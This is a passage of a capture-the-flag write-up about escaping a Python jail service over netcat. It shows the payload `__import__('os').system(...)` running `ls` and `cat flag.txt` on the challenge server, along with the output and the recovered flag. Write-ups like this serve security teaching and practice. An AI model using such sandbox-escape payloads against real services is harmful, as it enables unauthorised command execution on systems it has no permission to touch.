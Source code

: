 it gives us output `nobody` means our command executed,

well, from  [docs](https://python-reference.readthedocs.io/en/latest/docs/functions/__import__.html)  `__builtins__.__import__` can be used like  `__import__`  well so our finally payload will be

```
malwarepeter@spaceX:~$ nc 16.16.65.31 30000
------
>>> print(__import__('os').system('ls'))
bin
boot
dev
etc
flag.txt
home
jail.py
lib
.....
.....
var
0
Execution successful.
>>>
```

we can see the flag, now we get it by

```
malwarepeter@spaceX:~$ nc 16.16.65.31 30000
------
>>> print(__import__('os').system('cat flag.txt'))
acdfCTF{Cyb3rlymp1cs_w4rmup_pyj41l_v3ry_345y_r1ght?}
0
Execution successful.
>>>
```

![img11](img/jail11.png)
